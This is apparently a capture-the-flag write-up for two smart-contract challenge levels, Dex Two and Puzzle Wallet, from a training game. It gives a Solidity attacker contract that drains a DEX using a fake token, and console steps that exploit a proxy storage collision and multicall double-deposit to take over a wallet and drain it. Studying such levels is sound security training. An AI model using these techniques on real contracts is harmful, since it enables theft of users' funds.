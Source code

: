 
## Dex
TODO


## Dex Two
Looking at the swap function, we can see that the function does not verify that `from` is token1 or token2. So, we can create our own ERC20 Token to manipulate the Dex.

```
contract Dex2Attacker is ERC20 {
  ERC20 victim1;
  ERC20 victim2;
  DexTwo dexVictim;


  constructor(address dex, address token1, address token2) ERC20("Attacker", "ATK") {
    dexVictim = DexTwo(dex);
    victim1 = ERC20(token1);
    victim2 = ERC20(token2);
  }

  function attack() external {
    _mint(address(dexVictim), 100 ether);
    _mint(address(this), 1000 ether);
    _approve(address(this), address(dexVictim), 1000 ether);
    dexVictim.swap(address(this), address(victim1), 100 ether);
    victim1.transfer(msg.sender, 100 ether);

    // Burn 100 tokens of dexVictim
    _burn(address(dexVictim), 100 ether);
    dexVictim.swap(address(this), address(victim2), 100 ether);
    victim2.transfer(msg.sender, 100 ether);

  }
}
```


## Puzzle Wallet
Here, we can see in multicall that we are able to call deposit two times. This will increase our balance in contract, and we will be able to drain funds that we didn't deposit.
```js
// get owner of PuzzleWallet (by storage collision with pendingAdmin)
// proposeNewAdmin()
//// Here '000000000000000000000000address', address needs to be replace by your address without 0x. 24 zero (12 bytes) must be set before (encoding of address)
contract.sendTransaction({value: 0, data: '0xa6376746000000000000000000000000address'})
// get whitelisted (allowed thanks to storage collision)
contract.addToWhitelist("0xaddress")
// build exploit (needs to call deposit two times, so we will have deposited 0.002 eth)
depositData = await contract.methods["deposit()"].request().then(v => v.data)
// call multicall, so it call deposit twice with the same amount
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
// get the amount out (0.002 eth)
contract.execute("0xaddress", 2000000000000000, 0x00)
// set MaxBalance to our address (will collide with the proxy admin address)
contract.setMaxBalance('0xaddress')
```
